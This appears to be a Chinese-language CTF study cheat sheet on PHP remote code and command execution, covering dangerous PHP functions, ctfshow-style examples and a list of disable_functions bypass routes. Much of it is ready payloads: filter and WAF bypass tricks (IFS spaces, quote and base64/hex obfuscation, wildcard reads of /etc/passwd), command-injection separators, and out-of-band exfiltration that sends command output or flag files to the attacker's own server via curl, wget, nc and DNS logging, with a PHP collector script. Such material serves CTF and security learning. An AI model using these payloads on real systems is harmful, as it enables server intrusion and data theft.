









命令执行
rce_代码执行函数
eval() 执行php代码
eval() 函数把字符串按照 PHP 代码来计算。
该字符串必须是合法的 PHP 代码，且必须以分号结尾。
如果没有在代码字符串中调用 return 语句，则返回 NULL。如果代码中存在解析错误，则 eval() 函数返回 false。
语法
eval(phpcode)
| 参数 | 描述 |
|---|---|
| phpcode | 必需。规定要计算的 PHP 代码。 |
${}执行代码
同eval()函数，常用于eval被过滤时
assert() 检查一个断言是否为 false
语法：
assert(条件); #如果条件为错，终止程序执行，可以用于执行命令
相当于：
if(假设成立)
{
程序正常运行；
}
else
{
报错&&终止程序！（避免由程序运行引起更大的错误）
}
普通调用
//?a=phpinfo()
<?php assert($_POST['a']);?>
assert函数支持动态调用
//?a=phpinfo()
<?php
$a = 'assert';
$a($_POST['a']);
?>
php官方在php7中更改了assert函数。在php7.0.29之后的版本不支持动态调用。
preg_replace() 正则匹配替换
语法：preg_replace(正则语句,字符串，要替换的字符串)
/e参数 : 将字符串当作php代码执行
执行代码需要使用/e修饰符。如果不使用/e修饰符，代码则不会执行
$a = 'phpinfo()';
$b = preg_replace("/abc/e",$b,'abcd');
/e在php7已弃用
create_function()
语法：create_function(变量部分，方法代码)
如：
create_function('$a',"echo 123");
#类似于：
fuction ft($a){
echo 123;
};
php7.3 以弃用
rce_命令执行函数
system() 执行外部程序，并且显示输出
语法：system(‘命令行命令’)；
passthru() 执行外部命令
passthru() 函数 也是用来执行外部命令（command）的。 当所执行的 Unix 命令输出二进制数据， 并且需要直接传送到浏览器的时候， 需要用此函数来替代 exec() 或 system() 函数。
语法：passthru(要执行的命令，要提供的参数【可选】);
exec() 执行外部程序
语法：
exec ( string $command , array &$output = ? , int &$return_var = ? ) : string
exec() 执行 command 参数所指定的命令。
command要执行的命令。
output如果提供了
output参数， 那么会用命令执行的输出填充此数组， 每行输出填充数组中的一个元素。 数组中的数据不包含行尾的空白字符，例如\n字符。 请注意，如果数组中已经包含了部分元素，exec() 函数会在数组末尾追加内容。如果你不想在数组末尾进行追加， 请在传入 exec() 函数之前 对数组使用 unset() 函数进行重置。return_var如果同时提供
output和return_var参数， 命令执行后的返回状态会被写入到此变量。
注意：exec()函数的执行结果不会被直接输出，需配合其他函数使用
shell_exec()
同exec()函数，都不能直接打印出执行的结果
但exec()函数执行的结果往往时一个总结，而shell_exec()函数使用echo 时会显示详细的结果
反引号
同exec()函数用法和特性一致
ob_start() 打开缓冲区
此函数将打开输出缓冲。当输出缓冲激活后，脚本将不会输出内容（除http标头外），相反需要输出的内容被存储在内部缓冲区中。
使用
<?php
ob_start("system");
#当缓冲区激活时，所有来自PHP程序的非文件头信息均不会发送，而是保存在内部缓冲区。
echo "whoami";
ob_end_flush();#刷新缓冲区的内容，输出。
?>
//输出www-data
内部缓冲区的内容可以用 ob_get_contents() 函数复制到一个字符串变量中。 想要输出存储在内部缓冲区中的内容，可以使用 ob_end_flush() 函数。另外， 使用 ob_end_clean() 函数会静默丢弃掉缓冲区的内容。
语法：
ob_start(output_callback)
ob_start()中可选择一个output_callback函数传入，并将中间内容传入此函数，在ob_end_flush()时输出
对命令的执行效果同exec()
过滤绕过
特殊字符过滤
空格
在bash下，可以用以下字符代替空格
<
${IFS}
$IFS$9
%09
{cat,flag}
敏感字符绕过
利用变量绕过
$a=l;$b=s;$a$b; a=l;b=s;$a$b执行ls
利用反斜杠绕过
c\at 1.t\xt利用引号绕过
c''at /f''lag c"a"t /"f"lag包裹拼接联合
a=l;$a's' a=l;$a''s
base64编码绕过
echo 'cat' | base64 Y2F0Cg== `echo 'Y2F0Cg==' | base64 -d` 1.txt -d 代表decode,解码16进制编码绕过
echo "ls"|xxd 6c73 0a `echo "6c73" | xxd -r -p` echo "6c73"|xxd -r -p |bash八进制绕过
使用
$*和$@，$x,${x}注：因为在没有传参的情况下，上面的特殊变量都是为空的

过滤文件名绕过（例如过滤/etc/passwd文件）
利用正则匹配绕过
cat /???/pass*例如过滤/etc/passwd中的etc，利用未初始化变量，使用$u绕过
cat /etc$u/passwd备注：此方法能绕CloudFlare WAF（出自：https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/）
过滤目录分隔符
使用多个管道或多cd绕过

ip进制转换
ip地址使用点分十进制，先转二进制再转十进制后可以得到一串数字，直接访问得到的数字，同样可以访问目标网站
如百度：220.181.38.148
转换后：3702859412
同义命令绕过
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261 //报错出文件内容
过滤分隔符
可以使用%0a代替，%0a其实在某种程度上是最标准的命令链接符号
功能 符号 payload
换行符 %0a ?cmd=123%0als
回车符 %0d ?cmd=123%0dls
连续指令 ; ?1=123;pwd
后台进程 & ?1=123&pwd
管道 | ?1=123|pwd
逻辑运算 ||或&& ?1=123&&pwd?>代替;在php中可以用
?>来代替最后一个;因为php遇到定界符关闭标志时，系统会自动在PHP语句之后加上一个分号。
长度限制绕过
命令联合
cat `ls` 等同于 cat 1.txt;cat 1.php ...
*未过滤使使用*更佳文件命令读取
sh命令可读取文件中的命令执行
\ 可用作命名换行符
touch 't *;\' ls -t> 'ca\' sh ca\\
无回显情况的命令执行
写入文件
类似 ls > 1 会将ls 命令得到的内容全部导入名为1的文件，访问这个文件即可得到命令执行的结果

利用自己的服务器发送文件
先在存在命令执行的服务器上开启端口监听
nc -lnvp 端口号 可以发送给一个文件 nc -lnvp 端口号 > 123.txt然后开启自己的服务器，访问被我们监听的端口，得到数据
nc -vz -w2 ip地址 被监听的端口号 写入文件 nc -v -w2 ip地址 被监听的端口号 < 123.txt若存在命令执行，我们可以直接通过nc命令将木马发给服务器
利用服务器进行监听
在自己服务器上开始端口监听
nc -lv 端口号在存在命令执行漏洞的服务器中访问服务器端口
curl 服务器ip/`命令` 例如： curl http://ip:8001/`ls | base64`

在vps上建立记录脚本
在自己的公网服务器站点根目录写入php文件，内容如下：
<?php
$data =$_GET['data'];
$f = fopen("flag.txt", "w");
fwrite($f,$data);
fclose($f);
?>
在目标服务器的测试点可以发送下面其中任意一条请求进行测试
curl http://*.*.*.**/record.php?data=`cat flag.php|base64`
wget http://*.*.*.*/record.php?data=`cat flag.php|base64`
通过http请求/dns请求等方式带出数据
利用doslog：
curl `命令`.域名
linux tee命令
Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。
用法:
tee file1 file2 //复制文件
ls /|tee 1.txt //命令输出
/dev/null 2>&1类无回显
例题：ctfshow-web入门42
<?php
if(isset($_GET['c'])){
$c=$_GET['c'];
system($c." >/dev/null 2>&1");
}else{
highlight_file(__FILE__);
}
>/dev/null 2>&1主要意思是不进行回显的意思
进行命令分隔即可
; //分号
| //只执行后面那条命令
|| //只执行前面那条命令
& //两条命令都会执行
&& //两条命令都会执行
payload:
cat flag.php||
cat flag.php;
无字母数字getshell
取反
在php中~代表取反操作
即假设有10011000的二进制，那么~10011000 == 01100111
这样取反后会得到一串无意义的字符，只要在执行命令时在这串字符前同样加取反符，就可以达成执行命令的目的
通配符文件执行
shell中可以使用点来执行文件，如. 1.txt
在存在命令执行的情况下，我们可以发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母。
这个文件中写入我们需要执行的命令
通配符
*表示全部的字符?表示一个字符[^a]表示除a外
只要构造出符合要求的文件，就可以执行成功

大致就是这个意思
文件中无命令，也可以直接读取内容
伪协议
file:// 文件读取协议
语法：
curl file://【文件绝对路径】

phpinfo()之disable_functions
为了安全,运维人员会禁用PHP的一些“危险”函数,将其写在php.ini配置文件中,就是我们所说的disable_functions了。
绕过方式分类
- 常规绕过：exec,shell_exec,system,passthru,popen,proc_open
- 利用环境变量LD_PRELOAD绕过(★)：mail,imap_mail,error_log,mb_send_mail
- 利用pcntl_exec绕过
- 利用imap_open函数任意命令执行(CVE-2018-19518)
- 利用系统组件window com绕过
- 利用Apache+mod_cgi+.htaccess绕过
- 利用ImageMagick漏洞绕过利用PHP7.4的FFI绕过
- 利用 ShellShock绕过(CVE-2014-6271)
- 蚁剑插件
特别鸣谢：
https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html